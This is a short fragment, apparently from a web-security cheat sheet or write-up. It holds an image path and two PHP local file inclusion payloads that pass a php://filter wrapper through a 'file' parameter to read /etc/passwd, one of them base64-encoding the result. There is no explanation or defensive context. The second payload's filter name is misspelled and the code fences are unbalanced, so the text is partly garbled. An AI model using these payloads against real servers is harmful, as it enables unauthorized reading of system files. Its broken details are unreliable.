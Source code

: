 ```
```php
php?file=php://filter/resource=/etc/passwd
```
```php
page.php?file=php://filter/convert.base64encode/resource=/etc/passwd
```


